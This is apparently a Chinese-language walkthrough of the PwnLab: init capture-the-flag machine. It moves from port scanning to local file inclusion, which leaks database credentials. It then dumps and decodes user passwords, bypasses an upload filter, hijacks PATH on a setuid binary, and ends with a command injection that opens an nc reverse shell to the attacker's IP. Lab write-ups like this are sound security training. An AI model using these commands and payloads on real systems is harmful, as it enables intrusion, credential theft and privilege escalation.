

# PwnLab：init

下载地址：

```
https://download.vulnhub.com/pwnlab/pwnlab_init.ova
```

## 实战操作

靶场IP地址：`192.168.0.27`。

扫描靶场端口信息

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -sV -p1-65535 192.168.0.27                                                                                                                                                                                                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-30 08:15 EST
Nmap scan report for 192.168.0.27
Host is up (0.0026s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
41133/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:E5:CA:92 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.47 seconds
```

扫描80WEB端口服务。

```
┌──(root💀kali)-[~/Desktop]
└─# nikto -h http://192.168.0.27/  
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.0.27
+ Target Hostname:    192.168.0.27
+ Target Port:        80
+ Start Time:         2021-12-30 08:17:26 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.0.1".
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Cookie PHPSESSID created without the httponly flag
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7915 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2021-12-30 08:18:16 (GMT-5) (50 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

访问80端口WEB服务，点击upload功能提示需要登录。

 (1) (1).png>)

尝试使用SQL注入是测试，发现不可以。

 (1) (1) (1) (1) (1) (1).png>)

然后注意到像这种URL：http://192.168.0.27/?page=login，很大程度存在**本地文件包含漏洞**。nikto扫描到`config.php`文件，直接文件包含`config.php`。

```
http://192.168.0.27/?page=php://filter/convert.base64-encode/resource=config
```

 (1) (1) (1) (1) (1) (1).png>)

base64解密

```
┌──(root💀kali)-[~/Desktop]
└─# echo  PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+ | base64 -d
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>                                                                                                                                                                                                                                             
```

MySQL连接上去，发现用户名密码（base64加密）。

```
┌──(root💀kali)-[~/Desktop]
└─# mysql -uroot -pH4u%QJ_H99 -h192.168.0.27                                                                                                                                                                                             1 ⨯
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 54
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.001 sec)

MySQL [(none)]> use Users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.001 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.000 sec)
```

解密用户密码。

```
┌──(root💀kali)-[~/Desktop]
└─# echo Sld6WHVCSkpOeQ== | base64 -d                                                                                                                             
JWzXuBJJNy                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/Desktop]
└─# echo U0lmZHNURW42SQ==   | base64 -d
SIfdsTEn6I                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/Desktop]
└─# echo aVN2NVltMkdSbw==   | base64 -d
iSv5Ym2GRo   
```

上传反弹shell，提示只允许图片文件上传。

 (1) (1) (1) (1).png>)

修改上传后缀，报错ERROR 001。

.png>)

修改上传类型，报错ERROR 002。

 (1) (1) (1).png>)

修改上传类型以及添加图片头。

 (1) (1) (1) (1) (1).png>)

尝试本地文件包含图片木马，但是失败。

`http://192.168.0.27/?page=php://filter/read=convert.base64-encode/resource=upload/450619c0f9b99fca3f46d28787bc55c5.gif`

 (1).png>)

本地包含`index.php`文件。

 (1) (1) (1) (1) (1).png>)

可以发现index.php源码里面有个cookie的`lang`参数，存在文件包含漏洞。

```
┌──(root💀kali)-[~]
└─# echo  PD9waHANCi8vTXVsdGlsaW5ndWFsLiBOb3QgaW1wbGVtZW50ZWQgeWV0Lg0KLy9zZXRjb29raWUoImxhbmciLCJlbi5sYW5nLnBocCIpOw0KaWYgKGlzc2V0KCRfQ09PS0lFWydsYW5nJ10pKQ0Kew0KCWluY2x1ZGUoImxhbmcvIi4kX0NPT0tJRVsnbGFuZyddKTsNCn0NCi8vIE5vdCBpbXBsZW1lbnRlZCB5ZXQuDQo/Pg0KPGh0bWw+DQo8aGVhZD4NCjx0aXRsZT5Qd25MYWIgSW50cmFuZXQgSW1hZ2UgSG9zdGluZzwvdGl0bGU+DQo8L2hlYWQ+DQo8Ym9keT4NCjxjZW50ZXI+DQo8aW1nIHNyYz0iaW1hZ2VzL3B3bmxhYi5wbmciPjxiciAvPg0KWyA8YSBocmVmPSIvIj5Ib21lPC9hPiBdIFsgPGEgaHJlZj0iP3BhZ2U9bG9naW4iPkxvZ2luPC9hPiBdIFsgPGEgaHJlZj0iP3BhZ2U9dXBsb2FkIj5VcGxvYWQ8L2E+IF0NCjxoci8+PGJyLz4NCjw/cGhwDQoJaWYgKGlzc2V0KCRfR0VUWydwYWdlJ10pKQ0KCXsNCgkJaW5jbHVkZSgkX0dFVFsncGFnZSddLiIucGhwIik7DQoJfQ0KCWVsc2UNCgl7DQoJCWVjaG8gIlVzZSB0aGlzIHNlcnZlciB0byB1cGxvYWQgYW5kIHNoYXJlIGltYWdlIGZpbGVzIGluc2lkZSB0aGUgaW50cmFuZXQiOw0KCX0NCj8+DQo8L2NlbnRlcj4NCjwvYm9keT4NCjwvaHRtbD4= | base64 -d
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
        include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
        if (isset($_GET['page']))
        {
                include($_GET['page'].".php");
        }
        else
        {
                echo "Use this server to upload and share image files inside the intranet";
        }
?>
</center>
</body>
</html>        
```

lang参数文件包含到Linux密码文件。

 (1) (1) (1) (1) (1) (1) (1).png>)

本地文件包含图片木马，nc反弹。

 (1) (1).png>)

使用bash终端，方便显示。

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@pwnlab:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

查看home目录发现之前MySQL的几个用户。

```
www-data@pwnlab:/$ ls
ls
bin   dev  home        lib         media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lost+found  mnt    proc  run   srv   tmp  var
www-data@pwnlab:/$ cd /home
cd /home
www-data@pwnlab:/home$ ls
ls
john  kane  kent  mike
```

使用上面kane密码进行提权，找到`msgmike`一个二进制文件。

```
kent@pwnlab:~$ su kane
su kane
Password: iSv5Ym2GRo

kane@pwnlab:/home/kent$ cd /home/kane

kane@pwnlab:~$ ls
msgmike

kane@pwnlab:~$ file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
```

可以看到`msgmike`尝试查看`mike`目录`msg.txt`。

```
kane@pwnlab:~$ ./msgmike
cat: /home/mike/msg.txt: No such file or directory

kane@pwnlab:~$ string msgmike
bash: string: command not found
kane@pwnlab:~$ strings msgmike
strings msgmike
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setregid
setreuid
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh 
QVh[
[^_]
cat /home/mike/msg.txt
;*2$"(
GCC: (Debian 4.9.2-10) 4.9.2
GCC: (Debian 4.8.4-1) 4.8.4
```

 (1) (1) (1) (1) (1) (1).png>)

猜测msgmike源代码

```
int main()  
{  
      system("cat /home/mike/msg.txt");  
}  
```

查看环境变量，因为为该组设置了 SUID 位，正如您所看到的，Mike 在`mike`和`kane`组中。

```
kane@pwnlab:~$ cd /tmp

kane@pwnlab:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

kane@pwnlab:/tmp$ echo '/bin/bash' >> cat

kane@pwnlab:/tmp$ chmod +x /tmp/cat
kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ ~/msgmike

mike@pwnlab:/tmp$ whoami
mike
```

查看mike目录`msg2root`文件。

 (1) (1) (1).png>)

猜测msg2root源代码

```
#include <iostream>  
  
char msg[1024];  //Let's assume no BO takes place, alrighty?  
char command[1024];   
  
int main()  
{  
 printf("Message for root: ");  
 scanf("%s", msg);  
 snprintf(command, sizeof(command), "/bin/echo %s >> /root/messages.txt", msg);  
 system(command);  
}  
```

直接nc反弹，虽然可以root，但是最后查不到flag.txt

 (1) (1) (1) (1).png>)

```
hello; $(nc -e /bin/sh 192.168.0.8 11111)
```


